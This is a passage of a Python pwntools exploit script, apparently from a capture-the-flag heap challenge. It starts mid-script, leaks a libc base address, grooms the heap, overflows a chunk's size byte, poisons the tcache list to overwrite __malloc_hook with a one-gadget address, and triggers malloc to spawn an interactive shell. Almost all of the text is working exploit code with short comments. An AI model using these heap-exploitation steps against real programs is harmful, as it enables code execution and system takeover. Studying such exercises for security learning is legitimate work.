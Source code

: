 ```
ri()
target.sendline('8')
target.recvuntil("15935728")

leak = target.recvline().replace("\x0a", "")
leak = u64(leak + "\x00"*(8 - len(leak)))
libcBase = leak - 0x1e4ca0

print "libc base: " + hex(libcBase)



# Free all allocated blocks, so we can allocate more
for i in range(8, -1, -1):
    free(i)

# Allocate / free blocks in certain order, to groom heap so we can 
# allocate blocks behind already existing blocks

malloc("1"*8, 0x8)
malloc("2"*8, 0x8)

free(0)
free(1)


# This is the chunk whoose size value will be overflowed
malloc('3'*8, 0x8)

# Allocate a chunk to overflow that chunk's size with '0x81'
malloc('4'*0xf8 + "\x81", 0xf8)

# Free the overflowed chunk
free(0)


# Allocate overflowed chunk again, however this time we can write more data to it
# because of the overflowed size value. Overwrite the next pointer in the tcache linked
# list in the next chunk with the address of malloc_hook
malloc('1'*0x100 + p64(libcBase + libc.sym["__malloc_hook"])[:6], 0x174)

# Allocate a block on the chunk, so the next one will be to the malloc hook

malloc("15935728", 0x10)

# Calculate the onegadget address, then send it over
onegadget = libcBase + 0xe2383
malloc(p64(onegadget)[:6], 0x10)

# Get the program to call malloc, and get a shell
target.sendline('M')
target.sendline("10")

target.interactive()
```


